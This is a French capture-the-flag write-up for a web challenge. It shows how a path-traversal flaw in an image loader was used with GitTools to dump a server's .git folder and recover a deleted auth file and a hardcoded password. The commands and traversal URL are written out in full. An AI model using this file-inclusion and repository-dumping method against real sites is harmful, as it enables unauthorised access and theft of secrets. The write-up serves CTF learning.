

**Web - 300pts**

Enoncé :
```

```

**Résolution :**

Sur la page d'accueil le lien qui charge l'image nous semble suspect :
```
https://pushup.thcon.party/assets/png/load_image.png?_=muscle.png
```

Après plusieurs essais on remarque la présence d'une LFI.
On se sert de cette LFI pour récupérer le dossier .git présent sur le serveur avec [Gittools](https://github.com/internetwache/GitTools) :

```BASH
./gitdumper.sh "https://pushup.thcon.party/assets/png/load_image.png?_=../.git/" th_web300
```
On regarde la liste des commits :
```BASH
git log
```
On obtient un commit intérressant :

```
commit 2e3dfdcfeb22de43101397456f5d344d14f2dc5a
Author: zadig <zadig@riseup.net>
Date:   Fri Dec 15 22:02:16 2017 +0100

    Ajout de la méthode pour l'authentification

```

```BASH
git checkout 2e3dfdcfeb22de43101397456f5d344d14f2dc5a

```

On fait un git status , le fichier auth.php servant à l'authentification à été supprimé.

Pour le récupérer : 

```BASH
git checkout auth.php

```

Contenu du fichier auth.php :

```PHP
<?php

require_once 'engine/config.php';

if ($_POST['biceps'] === ___) {
  echo str_replace('_FLAG_', file_get_contents('flag.txt'), file_get_contents('templates/success.html'));
} else {
  echo file_get_contents('templates/error.html');
}
```

On récupère alors le fichier engine/config.php :

```BASH
git checkout engine/config.php

```


Dans le fichier engine/config.php on trouve le mot de passe de l'interface :
```PHP
<?php
const _ = '_ROOT_';
const __ = '_';

const ___ = 'ProtéinesDansLeMuscleExcessivement!';

const ____ = 'muscle.png';
?>

```
Une fois le mot de passe entrée on obtient le flag





By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
